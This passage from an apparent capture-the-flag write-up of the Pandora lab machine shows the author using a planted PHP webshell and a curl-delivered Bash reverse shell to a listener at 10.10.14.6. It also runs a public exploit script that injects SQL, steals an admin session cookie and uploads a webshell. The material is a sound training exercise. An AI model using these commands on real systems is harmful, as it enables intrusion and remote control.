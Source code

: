 Alternatively, since I have a shell as daniel, I could just find the file:

    
    
    daniel@pandora:/var/www/pandora/pandora_console$ find . -name 0xdf.php
    ./images/0xdf.php
    

Either way, the webshell works:

    
    
    oxdf@hacky$ curl http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=id
    uid=1000(matt) gid=1000(matt) groups=1000(matt)
    

#### Shell

To get a shell, I’ll just send it a Bash reverse shell:

    
    
    oxdf@hacky$ curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'
    

That hangs, but at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.136 44650
    bash: cannot set terminal process group (910): Inappropriate ioctl for device
    bash: no job control in this shell
    matt@pandora:/var/www/pandora/pandora_console/images$ 
    

#### Script

There’s a script from the SonarSource post authors that does all these steps
for you [on
GitHub](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated).
Running it fetches the admin cookie, and then uploads a webshell, and runs
commands through it:

    
    
    oxdf@hacky$ python sqlpwn.py -t 127.0.0.1:9001
    URL:  http://127.0.0.1:9001/pandora_console
    [+] Sending Injection Payload
    [+] Requesting Session
    [+] Admin Session Cookie : 3hif5avdqp1hms9fl52krjmrtb
    [+] Sending Payload 
    [+] Respose : 200
    [+] Pwned :)
    [+] If you want manual Control : http://127.0.0.1:9001/pandora_console/images/pwn.php?test=
    CMD > id
    uid=1000(matt) gid=1000(matt) groups=1000(matt)
    

## Shell as root
